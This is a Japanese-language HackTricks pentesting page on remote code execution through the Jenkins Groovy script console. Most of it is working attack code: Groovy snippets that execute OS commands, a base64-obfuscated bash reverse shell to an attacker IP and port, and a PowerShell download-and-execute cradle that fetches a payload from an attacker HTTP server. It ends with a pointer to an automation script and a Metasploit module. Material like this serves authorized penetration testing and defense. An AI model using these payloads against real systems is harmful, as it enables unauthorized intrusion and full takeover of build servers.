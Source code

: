# JenkinsでのGroovyスクリプトを使用したRCE

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに送信してください。**

</details>

## Groovyスクリプトを使用したJenkins RCE

これはJenkinsで新しいプロジェクトを作成するよりも騒音が少ないです。

1. _path\_jenkins/script_に移動します。
2. テキストボックス内にスクリプトを入力します。
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
次のようにしてコマンドを実行できます：`cmd.exe /c dir`

**Linux**では、次のようにします：**`"ls /".execute().text`**

テキスト内に_引用符_と_シングルクォート_を使用する必要がある場合は、_"""PAYLOAD"""_（トリプルダブルクォート）を使用してペイロードを実行できます。

**別の便利なGroovyスクリプト**は次のとおりです（\[INSERT COMMAND]を置き換えてください）：
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### リバースシェル（Linux）

リバースシェルは、攻撃者がターゲットのシステムに対してリモートでシェルアクセスを確立するための技術です。以下は、Linux環境でリバースシェルを実現する方法です。

1. 攻撃者は、自分のシステム上でリバースシェル用のペイロードを作成します。一般的な方法は、`netcat`や`bash`を使用することです。

2. 攻撃者は、ターゲットのシステムにペイロードをデプロイするための手段を見つけます。これには、脆弱なアプリケーションやサービス、リモートコード実行の脆弱性、または不正なファイルのアップロードなどが含まれます。

3. 攻撃者は、ターゲットのシステムにペイロードを実行するための手段を見つけます。これには、コマンドインジェクション、OSコマンドの脆弱性、または不正なファイルの実行などが含まれます。

4. 攻撃者は、自分のシステム上で待ち受けているリバースシェルを使用して、ターゲットのシステムに対してリモートでシェルアクセスを確立します。

これにより、攻撃者はターゲットのシステム上でコマンドを実行し、システムに対する完全な制御を取得することができます。リバースシェルは、侵入テストやセキュリティ評価の一環として使用されることがありますが、悪意のある目的で使用されることもありますので、適切な許可なしに使用しないようにしてください。
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windowsでのリバースシェル

PSリバースシェルを持つHTTPサーバーを準備し、Jenkinsを使用してダウンロードして実行することができます。
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### スクリプト

[**このスクリプト**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py)を使用して、このプロセスを自動化することができます。

逆シェルを取得するためにMSFを使用することができます：
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社の広告をハックトリックで見たい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
